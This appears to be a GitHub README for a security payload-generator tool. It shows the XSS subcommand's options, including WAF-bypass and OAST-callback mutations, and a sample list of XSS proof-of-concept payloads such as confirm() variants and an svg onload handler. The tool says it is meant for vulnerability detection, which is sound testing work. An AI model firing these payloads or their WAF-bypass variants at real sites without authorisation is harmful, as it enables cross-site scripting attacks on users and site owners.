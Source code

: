 # Payload Generator
Payload Generator Tool. These payloads are only help to detect the vulnerability. 

- [x] XSS Payload Generation
- [ ] SSTI Payload Generation
- [ ] HTML Injection Payload Generation
- [ ] Open Redirection Payload Generation
- [ ] SQL Injection Payload Generation
- [ ] Command Injection Payload Generation
- [ ] SSI Injection Payload Generation
- [ ] PHP Code Injection Payload Generation



## XSS Payloads

### Help

```bash
usage: generator.py xss [-h] [--popup] [--logger] [--oast] [--dom] [--ored] [--oast-domain] [--unique-string] [--waf] [--reverse-payloads] [--urlencode]

options:
  -h, --help          show this help message and exit

XSS Payload Types:
  --popup             Generate Popup Payloads
  --logger            Generate Console.log() Payloads
  --oast              Generate OAST Payloads
  --dom               Generate DOM Payloads
  --ored              Generate ORED Payloads

XSS Payload Options:
  --oast-domain       Set OAST Domain for payloads
  --unique-string     Set Unique String for testing

XSS Payload Mutations:
  --waf               Generate WAF Bypass Payloads
  --reverse-payloads  Generate Reverse Payloads
  --urlencode         Set URL Encoding for payload generator
```

### Generate Popup Payloads

```bash
python3 generator.py xss --popup 
confirm("yDrQfNiA5EdYHhmJIWMw")
confirm`yDrQfNiA5EdYHhmJIWMw`
(confirm`yDrQfNiA5EdYHhmJIWMw`)
{confirm`yDrQfNiA5EdYHhmJIWMw`}
[confirm`yDrQfNiA5EdYHhmJIWMw`]
(((confirm)))`yDrQfNiA5EdYHhmJIWMw`
new class extends confirm`yDrQfNiA5EdYHhmJIWMw`{}
["yDrQfNiA5EdYHhmJIWMw"].find(confirm)
[1337].map(confirm)
<svg/onload="confirm("yDrQfNiA5EdYHhmJIWMw")">
[...]
```
